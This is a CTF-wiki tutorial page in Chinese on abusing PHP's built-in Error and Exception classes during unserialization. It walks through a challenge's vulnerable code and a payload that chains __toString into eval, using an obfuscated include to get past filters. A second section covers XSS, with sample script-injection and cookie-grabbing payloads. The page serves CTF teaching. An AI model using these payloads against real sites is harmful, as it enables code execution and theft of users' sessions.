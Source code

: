 # ERROR类和exception类
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/).



顾名思义，error类是php中的报错类


exception为php中的异常类。


因为它内置有一个`__toString()`的方法，常用于PHP 反序列化中。


接下来介绍用法（欢迎补充姿势）


## 1 .md5()和sha1()绕过


md5函数的绕过应该大家都清楚，最常用的方法是null==null。


也就是传参的时候变为数组，然后使php解析报错


那么这里其实原理很为类似


`Error` 是所有PHP内部错误类的基类，该类是在PHP 7.0.0 中开始引入的。


* `Error::__construct`— 初始化 error 对象

* `Error::getMessage`— 获取错误信息

* `Error::getPrevious`— 返回先前的 Throwable

* `Error::getCode`— 获取错误代码

* `Error::getFile`— 获取错误发生时的文件

* `Error::getLine`— 获取错误发生时的行号

* `Error::getTrace`— 获取调用栈（stack trace）

* `Error::getTraceAsString`— 获取字符串形式的调用栈（stack trace）

* `Error::__toString`— error 的字符串表达

* `Error::__clone`— 克隆 error

`Exception` 是所有异常的基类，该类是在PHP 5.0.0 中开始引入的。


* `Exception::__construct`— 异常构造函数

* `Exception::getMessage`— 获取异常消息内容

* `Exception::getPrevious`— 返回异常链中的前一个异常

* `Exception::getCode`— 获取异常代码

* `Exception::getFile`— 创建异常时的程序文件名称

* `Exception::getLine`— 获取创建的异常所在文件中的行号

* `Exception::getTrace`— 获取异常追踪信息

* `Exception::getTraceAsString`— 获取字符串类型的异常追踪信息

* `Exception::__toString`— 将异常对象转换为字符串

* `Exception::__clone`— 异常克隆

两个函数均有__tostring类


稍微解释下：（暗示例子）


```php
<?php
error_reporting(0);
class SYCLOVER 
{        
    public $syc;    
    public $lover;       
    public function __wakeup()      
    {       
        if( 
            ($this->syc != $this->lover) 
            && (md5($this->syc) === md5($this->lover)) 
            && (sha1($this->syc)=== sha1($this->lover)) 
        )      
        {                          
            if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match))           
            {
                eval($this->syc);
            }
            else 
            {               
                die("Try Hard !!");           
            }                   
        }    
    }
}
if (isset($_GET['great'])) 
{    
    unserialize($_GET['great']);
} 
else 
{    
    highlight_file(__FILE__);
}
?>
```



(看到这个syclover就想到那张大脸。。。）


比较典型的反序列化。


想要达成代码执行必须先通过上面的md5和sha1的比较匹配。


由于是因为在类中，数组是用不了的。


想想__tostring的调用方法：


当类被当成字符串时调用


于是我们构造一条链


unserilize->__wakeup()->error()类->__tostring->eval()函数


```php
<?php
class SYCLOVER 
{ 
    public $syc; 
    public $lover; $str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
} 
$a=new Error($str,1); 
$b=new Error($str,2);//原生类用在这里 
$c = new SYCLOVER(); 
$c->syc = $a; 
$c->lover = $b;
echo(urlencode(serialize($c)));
?>
```



这就是最后的payload


这里应该是能看懂


ps:`?>`是因为ERROR报错类会跳出一长串不可预知的报错信息，需要命令执行的话需要用`?>`去闭合掉爆出来的杂七杂八的信息。`~`是取反符号绕过过滤。（理解一下，和异或很类似）。


`eval("...Error: ?><?php payload ?>")`


## 2.PHP7.0下的XSS


```php
<?php
$a = unserialize($_GET['whoami']);
echo $a;
?>
```



上面的代码只有一个简单的反序列化，并没有给出类，这时候一般都会去思考一下原生类。


```php
<?php
$a = new Error("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);  
?>
```



然后报错把插入的XSS代码执行。


之后一般会用到XSS里面的知识模块例如：



`<script>alert("内容")</script>`    使用`<script>`标签，弹出消息对话框


`<body onload=alert("内容")>`   使用`<body>`标签，弹出消息对话框


`<a href=“”onclick=alert(“内容”)>链接文字</a>` 使用`<a>`标签，显示可点击链接，点击链接后弹出消息对话框


`<imgsrc=WrongIP onerror=alert("内容")>`   使用`<img>`标签，弹出消息对话框


`<script>window.location.href="网站地址"</script>`  使用`<script>`标签，重定向页面


`<script>alert=(document.cookie)</script>`   使用`<script>`标签，cookie获取


等等


例题可以看这个：（网上蛮多的我就不放了）